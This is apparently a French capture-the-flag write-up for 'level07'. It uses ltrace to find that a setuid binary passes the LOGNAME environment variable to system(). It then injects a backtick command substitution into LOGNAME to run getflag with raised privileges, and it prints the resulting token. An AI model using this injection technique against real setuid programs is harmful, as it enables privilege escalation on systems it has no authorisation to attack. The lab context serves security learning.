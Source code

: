 # Level07

On observe un éxécutable a la racine <code>level07</code>

<pre>$ ./level07
level07</pre>

En utilisant <code>ltrace</code>, on voit qu'il <code>echo level07</code>

<pre>$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 ...
getegid()                                        = 2007
geteuid()                                        = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                                = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07 ...
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++</pre>

La valeur est obtenue en lisant la variable d’environnement <code>LOGNAME</code>

On modifie donc <code>LOGNAME</code> pour verifier la théorie

<pre>$ LOGNAME="test"

$ ./level07
test</pre>

Et le programme <code>echo test</code> cette fois ci.

On écrit donc la commande <code>getflag</code> dans <code>LOGNAME</code>

<pre>$ LOGNAME="\`getflag\`"

$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h</pre>

